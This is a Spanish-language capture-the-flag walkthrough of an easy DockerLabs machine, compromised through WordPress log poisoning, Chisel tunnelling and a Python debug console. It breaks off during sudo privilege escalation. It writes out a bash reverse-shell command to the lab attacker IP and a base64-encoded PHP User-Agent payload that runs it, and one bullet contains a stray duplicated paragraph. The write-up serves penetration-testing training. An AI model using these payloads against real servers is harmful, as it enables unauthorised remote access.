**IP**:  172.17.0.2
**S.O**: Linux
**Source:** DockeLabs
**Level:** Fácil
**Date:** 23 diciembre 2025
**Autor**:
**Descripción**: 

Web Enumeration
Fuzzing with gobuster
Enumeración de WordPress con wpscan
WordPress RCE vía LFI + Log Poisoning
User-Agent Injection with Burp Suite
Chisel Port Forwarding (Reenvío de Puertos)
Ejecución Remota de Código a través de la Consola de Depuración Python
[[Escalada de Privilegios#**Escalada de Privilegios mediante Sudo**]] - wp, mediante Inyección de Comandos en un Script Sudo

**Flags**:  


**Begin**:

---

### **Reconocimiento**:

Comenzamos haciendo un ping:

Hay conexión 
TTL: 64 -> Linux

Hacemos un escaneo de puertos

Puertos abiertos: 
Puertos 80 (HTTP)

### **Enumeración**

Accedemos a la pagina web

Nos redirige al dominio `bicho.dl`.

Agregamos aquel nombre de dominio a `/etc/hosts`


Logramos visualizar la pagina web


Vemos las tecnologías que corren detrás de la pagina web.


Realizamos un fuzzing de directorios.

Vemos varis directorios de wordpress.

Nos dirigimos al sitio donde poder logearnos



Realizamos una enumeración con [[wpscan]]
```bash
wpscan -e p,vt,cb,u --url http://bicho.dl
```
WPScan, una herramienta de escaneo de seguridad para sitios web basados en WordPress. El comando está diseñado para realizar una enumeración agresiva de información sensible en el objetivo.

* -e significa **enumerate** (enumerar)
* p **(Plugins)**: Busca plugins instalados en el sitio. Por defecto, busca los plugins más populares (mixed detection). Saber qué plugins tiene el sitio es crucial para buscar vulnerabilidades específicas (CVEs) en ellos. 
* vt **(Vulnerable Themes)**: Escanea específicamente temas (themes) que se sabe que tienen vulnerabilidades de seguridad. A diferencia de t (que busca cualquier tema), vt se centra en los que son peligrosos. Usuario bicho encontrado. No se logro encontrar una contraseña con: wpscan -U bicho -P /usr/share/wordlists/rockyou.txt --url bicho.dl Al haber ejecutado el comando wpscan , el reporte de wpscan indica que hay un fichero con extensión .log (http://bicho.dl/wp-content/debug.log) el cual se encuentra disponible para 
* cb **(Config Backups)**: Busca copias de seguridad de archivos de configuración (ej. wpconfig.php.bak , wp-config.php.old ). 
* u **(Users)**: Intenta enumerar los nombres de usuario válidos (autores) del sitio. Generalmente lo hace analizando los IDs de autor (/?author=1) o los mensajes de error de inicio de sesión.



Encontramos un usuario llamado `bicho`.

Usuario bicho encontrado.

No se logro encontrar una contraseña con: `wpscan -U bicho -P /usr/share/wordlists/rockyou.txt --url bicho.dl`

Al haber ejecutado el comando wpscan , el reporte de wpscan indica que hay un fichero con extensión .log (http://bicho.dl/wp-content/debug.log) el cual se encuentra disponible para revisar:

Al verlo mas a profundo vemos que puede ser vulnerable a **log possioning**

Log Poisoning (envenenamiento de logs) es una técnica de ciberataque que permite a un atacante inyectar código malicioso en los archivos de registro (logs) de un servidor.

`http://bicho.dl/wp-content/debug.log `Aqui se registran los logs que intentaremos envenenar.

`http://bicho.dl/wp-login.php` Aqui es donde inyectaremos el payload.

### **Explotación**

Codificaremos en base64 la cadena que nos entablará una reverse shell:
```bash
echo "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1" | base64
```


Y en una petición de login que hemos capturado con Burp Suite, modificaremos el valor de la cabecera User-Agent por código en PHP, el cual, al guardarse en el log, al nosotros acceder al mismo, se interpretará y se ejecutará:


Codigo en php:
```
<?php echo `printf YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0NDQgMD4mMQo= |
base64 -d | bash`; ?>
```

Ponemos en escucha el puerto 4444.


Y pegamos el payload de php en el repetidor.

y le damos a send .


Nos dice `ok`.


Y en el puerto de escucha nos da la Reverse Shell.


Para poder escalar privilegio, después de revisar varias alternativas 
Nos fijamos en las conexiones de red en el sistema.
```bash
netstat -tuln
```

Vemos que el puerto 5000 esta abierto, pero no lo podemos ver desde nuestra maquina, asi que utilizaremos la herramienta **Chisel** que nos permitirá crear un túnel seguro desde la máquina víctima hacia nuestra máquina atacante, redirigiendo el tráfico de ese puerto privado a un puerto accesible de nuestra máquina.

Primero nos montamos un servidor python3 para que podamos descargar chisel desde la maquina victima.
```bash
python3 -m http.server 80
```


Descargamos en la maquina la herramienta


Le damos permisos de ejecucion:


Ahora levantamos un puerto servidor en nuestra maquina atacante



En la máquina víctima, ejecutaremos el binario como cliente, conectándonos al puerto indicado en nuestra máquina, indicando que se trata de una conexión reversa (R:) a un cierto puerto de la máquina destino(5000), y la IP y el puerto de la maquina que queremos redireccionar (127.0.0.1:5000)



`http://127.0.0.1:5000/ `--> Ahora podremos acceder al recurso que antes no estaba expuesto.


Hacemos fuzzing con gobuster:



Tenemos una consola interactiva y corre python por detrás


Entonces de revshells.com generamos una RCE con nuestra direccion ip y el puerto `9001` de escucha y lo inyectamos en la consola interactiva.


Ponemos el puerto en escucha


Inyectamos


Y conseguimos la Reverse Shell.


### **Post-Explotación**

Listamos los permisos sudo

Vemos que podemos usar `wp` como el usuario `wpuser` sin la necesidad de una contraseña.

El binario es el que se encarga de desplegar WordPress, y revisando la documentación, nos indican que a la hora de ejecutarlo podemos pasarle el parámetro --exec y una instrucción en PHP que ejecutará al iniciar:
